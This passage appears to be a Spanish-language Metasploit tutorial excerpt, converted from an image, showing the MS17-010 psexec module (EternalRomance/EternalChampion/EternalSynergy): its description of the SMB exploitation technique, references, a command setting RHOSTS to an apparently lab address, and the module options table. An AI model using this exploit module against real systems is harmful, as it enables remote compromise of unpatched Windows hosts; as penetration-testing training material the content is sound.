 ```yaml
  SMBUser                                                        no       El nombre de usuario para autenticar como
```

#### Información sobre el Payload:

```yaml
Espacio: 3072
```

```markdown
Este módulo explotará SMB con vulnerabilidades en MS17-010 para
  lograr un primitivo de escritura-qué-dónde. Esto se utilizará para
  sobrescribir la información de sesión de conexión con una
  sesión de Administrador. Desde allí, se realiza la ejecución normal del código del payload psexec. 
  Explotando una confusión de tipo entre las solicitudes de 
  Transacción y WriteAndX y una condición de carrera en las solicitudes de 
  Transacción, como se vio en los exploits de EternalRomance, EternalChampion y EternalSynergy. 
  Esta cadena de exploit es más confiable que el exploit de EternalBlue,
  pero requiere un pipe nombrado.

### Referencias:
- [Documentación de Microsoft sobre MS17-010](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010)
- [NVD - CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)
- [NVD - CVE-2017-0146](https://nvd.nist.gov/vuln/detail/CVE-2017-0146)
- [NVD - CVE-2017-0147](https://nvd.nist.gov/vuln/detail/CVE-2017-0147)
- [GitHub - MS17-010](https://github.com/worawit/MS17-010)
- [Análisis del Exploit de HITCON](https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf)
- [Blog de Technet sobre SRD](https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/)

### También conocido como:
ETERNALSYNERGY ETERNALROMANCE ETERNALCHAMPION ETERNALBLUE
```

### MSF - Especificación de Objetivo Permanente

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > options
```

#### Opciones del Módulo

```perl
Nombre                  Configuración Actual                          Requerido  Descripción
   ----                  ------------------------                        --------  -----------  
   DBGTRACE              false                                       sí       Mostrar información de rastreo de depuración adicional
   LEAKATTEMPTS          99                                          sí       Cuántas veces intentar filtrar la transacción
   NAMEDPIPE                                                      no        Un pipe nombrado que puede ser conectado (dejar en blanco para auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo   sí       Lista de pipes nombrados a comprobar
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                                 sí       El/los host(s) objetivo(s), ver https://github.com/rapid7/metasploit-framework
                                                                           /wiki/Using-Metasploit
```